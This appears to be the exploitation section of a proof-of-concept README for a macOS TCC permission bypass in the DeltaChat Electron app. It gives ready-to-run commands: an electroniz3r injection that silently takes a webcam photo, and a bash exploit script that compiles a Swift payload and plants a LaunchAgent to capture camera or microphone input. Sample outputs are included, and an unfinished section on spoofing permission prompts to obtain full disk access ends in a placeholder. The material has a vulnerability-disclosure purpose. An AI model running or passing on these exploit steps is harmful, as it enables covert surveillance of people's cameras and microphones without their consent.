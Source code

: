 # Exploitation

Showing a few ways to exploit this vulnerability, also showing a "new" vulnerability/technique with TCC that _can_ be useful for tricking a user for more TCC rights, e.g. full disk access or any other TCC rights. 

>**Note:** When running this proof-of-concept, the Terminal app does not need a prompt for camera access. This is because the camera permission is granted to DeltaChat, and the injected code inherits those permissions, effectively bypassing macOS TCC restrictions.

### Automated 

Run the following from Terminal using [electroniz3r](https://github.com/r3ggi/electroniz3r)

```sh
electroniz3r inject /Applications/DeltaChat.app/ --predefined-script takeSelfie
```

Sample output:
```sh
/Applications/DeltaChat.app/ started the debug WebSocket server
The webSocketDebuggerUrl is: ws://127.0.0.1:13337/56264727-4473-4393-b712-7e24c65a1c71
Check /tmp/selfie.jpg
```

Confirm the result by running:
```sh
open /tmp/selfie.jpg
```

<img width="1502" height="470" alt="poc-delta" src="https://github.com/user-attachments/assets/6bcc6604-8707-4924-89c8-2d8985aab39e" />

A picture is taken using the system webcam, without Terminal having any camera access this demonstrates a successful TCC bypass.

### Bash Script 

Clone the repository and then execute the bash script, the bash script autoexploits the TCC Bypass, then you can choose between exploiting camera or microphone TCC bypass. 

Execute bash script:
```sh
bash full_exploit.sh
# or
chmod +x full_exploit.sh && ./full_exploit.sh
```

Example output camera: (auto opens the selfie)
```sh
kunpeeks@MacBook-Pro-van-Kun % bash exploit.sh 
[*] Choose the TCC resource to access:
    1. Camera (take selfie)
    2. Microphone (record 5 sec)
[?] Enter choice (1 or 2): 1
[*] Generating Swift payload...
[*] Mode: Camera (selfie)
[*] Compiling Swift payload to /Users/kunpeeks/Desktop/tcc_payload
[*] Writing LaunchAgent to /Users/kunpeeks/Library/LaunchAgents/com.deltachat.tcc.bypass.plist
[*] Triggering DeltaChat exploit via launchctl...
[*] Waiting for payload to complete...
[+] Selfie taken! Opening...
```

Example output microphone: (does not auto open the recording file, I'm too lazy too fix it)
```sh
kunpeeks@MacBook-Pro-van-Kun 2 % bash exploit.sh
[*] Choose the TCC resource to access:
    1. Camera (take selfie)
    2. Microphone (record 5 sec)
[?] Enter choice (1 or 2): 2
[*] Generating Swift payload...
[*] Mode: Microphone (5 sec recording)
[*] Compiling Swift payload to /Users/kunpeeks/Desktop/tcc_payload
[*] Writing LaunchAgent to /Users/kunpeeks/Library/LaunchAgents/com.deltachat.tcc.bypass.plist
[*] Triggering DeltaChat exploit via launchctl...
[*] Waiting for payload to complete...
[+] Audio recording complete! Playing...
Error: AudioFileOpen failed ('dta?')
```

The recorded 5s audio file is located in `/tmp/recording.m4a`. 



### Prompt Spoofing

This payload triggers a macOS TCC prompt for disk access. But instead of showing the request as coming from the Terminal (which executed the code), the system displays:

TODO: xxx





